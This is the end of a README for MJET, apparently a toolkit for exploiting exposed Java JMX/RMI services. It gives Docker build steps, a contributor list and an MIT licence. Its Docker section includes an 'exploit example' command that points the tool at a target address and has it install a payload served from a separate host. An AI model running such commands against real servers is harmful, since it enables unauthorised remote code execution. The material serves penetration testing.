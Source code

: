 ```
$
```

Reference: https://www.optiv.com/blog/exploiting-jmx-rmi

### Docker

Build and run the docker image

```bash
# Build
docker build -t mjet .
# Run Help
docker run mjet
# Exploit example
docker run mjet 10.165.188.23 2222 install super_secret http://10.165.188.1:8000 8000
```

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://twitter.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)
* **Ben Campbell** - *Several improvements* - [Meatballs1](https://github.com/Meatballs1)
* **Arnim Rupp** - *Authentication support*
* **Sebastian Kindler** - *Deserialization support*
* **Karsten Zeides** - *JMX Message Protocol support, localhost bypass* [zeides](https://github.com/zeides)
* **g60ocR** - *Docker file* [g60ocR](https://github.com/g60ocR)
* **Morn98** - *Shell and RMI selection* [Morn98](https://github.com/Morn98))

See also the list of [contributors](https://github.com/mogwailabs/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
